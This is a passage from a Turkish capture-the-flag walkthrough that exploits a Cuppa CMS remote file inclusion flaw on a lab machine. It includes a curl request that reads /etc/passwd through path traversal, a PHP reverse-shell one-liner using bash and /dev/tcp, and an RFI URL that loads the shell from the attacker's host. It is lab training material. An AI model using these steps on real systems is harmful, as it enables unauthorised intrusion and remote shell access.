 ![resim](https://sibermetin.com/uploads/images/202212/image_750x_639342e9b112f.jpg)

Bir giriş paneli daha bulduk. CMS için zafiyet var mı bi bakalım.
    searchsploit Cuppa

![resim](https://sibermetin.com/uploads/images/202212/image_750x_6393454fc07d5.jpg)

Bu istismarı makinemize indirelim.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_6393465423ed9.jpg)

Bu istismar uzaktan dosya eklemedir.

## SORU 3: Kötü amaçlı amaçlarla uzak dosya ekleyebildiğinizde bu güvenlik açığına ne denir?

## CEVAP: Remote File Inclusion

*Makinemin süresi dolduğu için "10.10.249.122 " bu ip adresi ile çözüme devam edeceğim. Siz kendi ip adresiniz ile devam edin.*

Cuppa CMS'yi etkileyen RFI güvenlik açıklarını aramak [https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971) yol açar.

Şimdi bu güvenlik açığını doğrulayalım:

    curl -s http://10.10.129.122/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a456ed1dab3.jpg)

Harika.

    /**
    * Plugin Name: Wordpress Reverse Shell
    * Author:
    */
    exec(“/bin/bash -c ‘bash -i >& /dev/tcp// 0>&1’”)
    ?>

Bu kodu kullanarak, IP ve Portu IP adresinizle ve ters kabuk dinleyicimizde kullanılacak bir Port ile değiştirerek küçük bir tek satırlık ters kabuk dosyası oluşturalım.

Tanımladığımız bu porta bir netcat dinleyicisi ayarlayalım:

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a46bf5ad046.jpg)

Şimdi python kullanarak ters kabuk sahip olduğumuz dizinde bir http sunucusu yayınlamamız gerekiyor.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a46d6ec06a9.jpg)

    http://skynet/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.21.24/rshell.php
